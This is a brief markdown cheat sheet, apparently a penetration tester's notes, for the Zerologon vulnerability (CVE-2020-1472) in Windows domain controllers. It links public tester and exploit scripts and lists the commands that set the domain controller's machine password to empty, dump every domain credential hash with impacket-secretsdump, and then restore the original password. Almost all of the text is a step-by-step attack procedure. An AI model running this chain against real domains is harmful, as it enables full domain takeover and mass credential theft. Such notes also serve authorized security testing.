 # zero logon exploit

## Information

This exploit changes the DC Password to an empty string.

* [SecuraBV/CVE-2020-1472/zerologon_tester.py](https://github.com/SecuraBV/CVE-2020-1472/blob/master/zerologon_tester.py)
* `python3 zerologon_tester.py DOMAIN DC_IP`

## Exploit

1. Clone [dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
2. `python3 exploit.py DOMAIN DC_IP`

### Dump hashes

* `impacket-secretsdump -just-dc DOMAIN/DC_HOSTNAME\$@DC_IP - no-pass`

### Restore

1. `impacket-secretsdump administrator@DC_IP -hashes HASH_FROM_DUMP`
2. Note the plaintext password `plain_password_hex`
3. `python3 restorepassword.py DOMAIN/DC_HOSTNAME@DC_HOSTNAME -target-ip DC_IP -hexpass PLAIN_HEX`
